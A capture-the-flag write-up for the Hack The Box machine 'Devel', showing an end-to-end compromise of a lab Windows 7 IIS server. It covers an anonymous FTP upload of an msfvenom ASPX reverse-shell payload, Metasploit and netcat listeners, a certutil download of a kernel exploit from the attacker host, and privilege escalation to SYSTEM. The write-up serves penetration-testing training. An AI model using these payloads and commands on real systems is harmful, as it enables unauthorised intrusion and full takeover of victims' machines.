

# Hackthebox - Devel

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -p- --min-rate=1000 10.10.10.5
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-26 10:58 EDT
Nmap scan report for 10.10.10.5
Host is up (0.028s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-25-22  08:20PM                 2924 devel.aspx
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.38 seconds
```

## FTP

We are allowed to connect anonymously, when looking at the files listed on the nmap scan, it seems that these are the files available on the webserver.  
It seems like we can list directory  
Can we upload files and access them through the web server?
```
┌──(root💀kali)-[~]
└─# ftp 10.10.10.5                                 
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> passive
Passive mode: on; fallback to active mode: on.
ftp> ls
229 Entering Extended Passive Mode (|||49210|)
150 Opening ASCII mode data connection.
03-18-17  01:06AM       <DIR>          aspnet_client
03-25-22  08:20PM                 2924 devel.aspx
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
```
We can create an hello.html file with just `hello` in it.
```
ftp> put hello.html
local: hello.html remote: hello.html
229 Entering Extended Passive Mode (|||49220|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************************************|     7      341.79 KiB/s    --:-- ETA
226 Transfer complete.
7 bytes sent in 00:00 (0.28 KiB/s)
```

We can see it in the browser  


This means we could try to execute code, as this is a windows webserver we need a shell compatible with windows.

## Initial foothold with Meterpreter

Let's generate one with msfvenom  
```
┌──(root💀kali)-[~/Documents/hackthebox/devel]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=5555 -f aspx > meterpreter.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2874 bytes
```

Now we need to launch metasploit to setup our listener  
- `msf6 > use exploit/multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set lhost tun0`
- `set lport 5555`
- `exploit -j`

We can get back to the ftp and put our exploit in there:
```
ftp> put meterpreter.aspx
local: meterpreter.aspx remote: meterpreter.aspx
229 Entering Extended Passive Mode (|||49221|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************************************|  2911       61.69 MiB/s    --:-- ETA
226 Transfer complete.
2911 bytes sent in 00:00 (83.02 KiB/s)
```
And now we can go to our webpage and access our exploit `http://10.10.10.5/meterpreter.aspx`  
And we can see on out metasploit that we have a shell!  
```
msf6 exploit(multi/handler) > [*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.8:5555 -> 10.10.10.5:49222 ) at 2022-03-26 11:49:12 -0400
sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.8:5555 -> 10.10.10.5:49222  (10.10.10.5)
```

Let's interact with our session:  
```
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```
- Let's see who we are:  
```
meterpreter > getuid
Server username: IIS APPPOOL\Web
```
- Let's get info on our target machine:
```
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```

### Enumerate System

- In meterpreter lets swhitch to a shell using `shell` command
- `systeminfo`
```
c:\>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          25/3/2022, 8:10:48 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.450 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.541 MB
Virtual Memory: In Use:    600 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::61ec:4277:9347:6901
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e
```

We know we are on windows 7, the owner is babis and the hostname is devel

- WinPeas does not work
- Powershell does not work
- We can see what exploit are suggested through meterpreter exploit suggester
```
meterpreter > run post/multi/recon/local_exploit_suggester
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 40 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

## Privilege escalation with Meterpreter

- `use exploit/windows/local/ms10_015_kitrap0d`
-  Set the session to the session you have on the target (mine is 7) `set session 7`
-  Set the lhost `set lhost tun0`
-  set the lport to a free port I am going to use 5556 `set lport 5556`
- `exploit`

And it worked
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## Initial foothold with netcat

- `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=5555 -f aspx > netcat.aspx`
- We put our file in the ftp `put netcat.aspx`
- We launch our listener and catch our shell by browsing to the file `rlwrap nc -lvp 5555 `
```
┌──(root💀kali)-[~/Documents/hackthebox/devel]
└─# rlwrap nc -lvp 5555                                                  
listening on [any] 5555 ...
10.10.10.5: inverse host lookup failed: Unknown host
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.5] 49239
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

## Privesc without Meterpreter

- If we go to C:\User\Public we have writing rights and we are able to download an exploit we can ty [this one](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)
- first we download it in our attacking machine
- Then we launch a python simple http server `python3 -m http.server 80`
- And we can download it in our target `certutil.exe -urlcache -f http://10.10.14.8/MS10-059.exe exploit.exe`
- We launch a listener `rlwrap nc -lvp 5556`
- We launch the exploit `exploit.exe 10.10.14.8 5556`
- We get a shell as authority\system:
  ```
  whoami
  nt authority\system
  ```

## Flags

We can get the flags in their usual place (with a win cmd we can use type instead of cat):
- The user one is here `cat c:\\Users\\babis\\Desktop\\user.txt` 
- The root one is here `cat C:\\Users\\Administrator\\Desktop\\root.txt`

## Resources

**As usual there is more than one way to do it :)**

 Writeup Devel - Rana Khalil Gitbook   

**Resource about the exploit**

 Kitrap0d Information   
